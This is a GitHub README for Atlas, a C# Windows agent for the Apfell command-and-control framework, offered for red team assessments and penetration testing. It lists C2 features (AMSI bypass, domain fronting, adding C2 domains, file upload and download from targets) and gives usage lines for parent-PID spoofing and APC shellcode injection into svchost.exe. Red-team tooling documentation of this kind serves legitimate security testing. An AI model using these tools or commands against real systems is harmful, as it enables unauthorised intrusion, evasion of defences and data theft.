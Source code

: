 # Atlas
![](Atlas.png?style=centerme)

Atlas is a lightweight Windows Apfell agent written in C#. It was intended to be used as an initial access agent with a focus on stability and flexibility in its configuration. I create the agent in an attempt to learn more about coding in C#, so the code is not optimized or written in the "proper" way. It was a fun project and I hope it may be useful to people for red team assessments and penetration testing.

## Features
- 3.5/4.0 .NET compatibility
- Small assembly size: <54Kb
- Dynamic .NET assembly loading and execution
	- Loaded assemblies are tracked so they only need to be loaded once
- Upload/Download files
- AMSI bypass when loading assemblies
- Proxy support
- Dynamic agent configuration
	- Add/remove C2 servers
	- Change sleep time and jitter
	- Change user-agent and host header
	- Change kill date
	- Modify query parameter for GET requests
	- Modify Proxy settings
- Intelligent C2 server selection
	- Keeps track of failed connections to servers and always chooses server with least failed connections
	- Tracking of failed connections is display with configuration data

## Build Instructions
Then navigate to `Manage Operations > Payload Management` on the Apfell server, and import the `atlas.json` file. This registers the payload with the Apfell server as an externally hosted payload.

You can then register the payload with the Apfell server via `Create Components > Create Payload` on the Apfell server, and stuff the PayloadUUID and other relevant information into `Config.cs`

Additional Atlas specific configuration options in `Config.cs`
```
Param				specify the query parameter to use for GET requests
ChunkSize			specify the chunking size to use for upload/download and command output
UseDefaultProxy		true or false, specify whether to use the system default proxy settings or use below manual settings 
ProxyAddress		specify proxy server address to use for web requests
ProxyUser			specify username to use for authenticating to proxy server
ProxyPassword		specify password to use for authenticating to proxy server
```

Then build the agent on a windows system with visual studio or via Mono on a *nix system. 

Once the agent is built, all that's left is to execute.

## Supported Commands
```
config			dynamically change agent settings during runtime (see below for more detail)
download		download files from target system to apfell server
exit			exit atlas instance via Environment.Exit
jobkill			kill a long running job
jobs			list current running jobs
listloaded		list assemblies loaded via the loadassembly command
loadassembly		load an arbitrary .NET assembly via Assembly.Load and keep track of assembly FullName for later execution
runassembly		execute the entrypoint of a .NET assembly loaded via loadassembly command
upload			upload a file from the apfell server to the target system
```

## Dynamic Configuration

Atlas allows a degree of dynamic configuration of the agent's settings after initial execution. These settings can be changed via the `config` command. below are the options to this command as there are many.
```
config				base command

options:
info				display current agent configuration
domain				option to add/remove C2 domain
	add				add a C2 domain to list of domains
	remove			remove a C2 domain from list of domains (will not let list be less then one domain)
sleep				sleep time between taskings in seconds
jitter				variation in sleep time, specify as a percentage
kill_date			date for agent to exit itself
host_header			host header to use for domain fronting
user_agent			user-agent header for web requests
param				option for query parameter used in GET requests
proxy				option to modify proxy settings
	use_default		true/false, choose whether to use system default settings or manual settings specified in config
	address			address of proxy server
	username		username to authenticate to proxy server
	password		password to authenticate to proxy server

Examples:
config info
config domain add http://hello.world
config sleep 60
config jitter 20
config kill_date 2020-03-01
config host_header cdn.cloudfront.com
config user_agent Mozilla 5.0 IE blah blah blah
config param order
config proxy use_default false
config proxy address 192.168.1.100
config proxy username harm.j0y
config proxy password Liv3F0rTh3Tw!ts
```

## Support Assemblies
Since functionality in Atlas is loaded via .NET assemblies, I have provided three support .NET projects that give Atlas basic RAT capability. Your welcome to use whatever fits your needs, but these are a good start.

`processlist` - This is a basic process listing application based off of [@cobbr's](https://twitter.com/cobbr_io?lang=en) code from [SharpSploit](https://github.com/cobbr/SharpSploit), it will retrieve current running process's PID, PPID, Arch, Name, and Owner.

`run` - This is slightly modified code from [@_RastaMouse](https://twitter.com/_rastamouse?lang=en) which he was kind enough to share after my struggles with named pipes redirection. This assembly executes shell commands while spoofing parent process ID and blocking non microsoft dlls from the process space. Neat little code and seems useful. (this does not execute via `cmd.exe`, if you would like to execute commands through there, start the command with `cmd.exe /c`)
```
Usage:
  run.exe <PPID> <command>
Example:
  run.exe 4343 ipconfig /all
Note: PPID is required for command
```

`apcinject` - Again, not my code. This is a slightly modified version of process injection using QueueUserAPC with a new process and suspended thread created by [@0xthirteen](https://twitter.com/0xthirteen).
```
Usage:
  apcinject.exe <path to target application> <base64 shellcode>
Example:
  apcinject.exe C:\Windows\System32\svchost.exe SGFjayB0aGUgUGxhbmV0IQ==
```

## TODO
- HTTP Profile
- File Browser Commands (ls & rm)
- Process listing hook
- unloadassembly

##  Acknowledgments
This project would not of been possible without the help and support of my coworkers

- [@its_a_feature_](https://twitter.com/its_a_feature_)
- [@djhohnstein](https://twitter.com/djhohnstein)
- [@cobbr_io](https://twitter.com/cobbr_io)
- [@001SPARTaN](https://twitter.com/001spartan)
